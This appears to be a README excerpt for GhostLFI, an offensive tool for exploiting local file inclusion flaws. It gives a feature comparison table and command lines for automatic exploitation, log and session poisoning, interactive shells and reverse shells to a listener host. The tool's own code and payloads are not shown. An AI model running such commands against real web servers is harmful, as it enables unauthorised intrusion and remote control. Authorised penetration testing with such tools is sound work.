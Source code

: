 
## 📊 Comparison

| Feature | GhostLFI | Multiple Tools |
|---------|----------|----------------|
| **Files** | 1 | 5+ |
| **Size** | 40KB | 100KB+ |
| **Payload Gen** | ✅ Built-in | ❌ Separate tool |
| **Wrapper Test** | ✅ Built-in | ❌ Separate tool |
| **Log Poison** | ✅ Built-in | ❌ Separate tool |
| **Session Poison** | ✅ Built-in | ❌ Separate tool |
| **Interactive Shell** | ✅ With generators | ⚠️ Basic |
| **Reverse Shell** | ✅ Auto-prompt | ⚠️ Manual |
| **Setup** | One command | Multiple commands |
| **Learning Curve** | Easy | Complex |

**Winner:** GhostLFI - Everything in ONE file!

---

## 🔧 Command Reference

```bash
# Auto-exploit
python3 ghostlfi.py -u <URL> -p <param> --auto

# With advanced techniques
python3 ghostlfi.py -u <URL> -p <param> --auto --advanced

# Interactive shell
python3 ghostlfi.py -u <URL> -p <param> --auto --shell

# Reverse shell
python3 ghostlfi.py -u <URL> -p <param> --auto --revshell --lhost <IP>

# Generate payloads
python3 ghostlfi.py -u <URL> -p <param> --generate <lfi|wrappers|shells|revshell>

# Test techniques
python3 ghostlfi.py -u <URL> -p <param> --test-bypass
python3 ghostlfi.py -u <URL> -p <param> --test-log-poison
python3 ghostlfi.py -u <URL> -p <param> --test-session-poison

# With Burp
python3 ghostlfi.py -u <URL> -p <param> --auto --proxy http://127.0.0.1:8080

# Help
python3 ghostlfi.py --help
```

---